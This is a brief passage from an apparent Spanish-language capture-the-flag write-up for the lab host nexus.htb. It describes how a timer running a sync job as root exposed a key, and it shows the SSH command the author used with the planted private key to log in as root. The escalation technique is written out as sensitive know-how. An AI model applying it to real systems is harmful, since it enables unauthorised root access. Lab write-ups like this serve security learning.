

Cuando el temporizador ejecutó la sincronización como root, la clave quedó disponible para conectarme por SSH. Usé la clave privada correspondiente y obtuve acceso como root:

```bash
ssh -i /tmp/.k root@nexus.htb
```


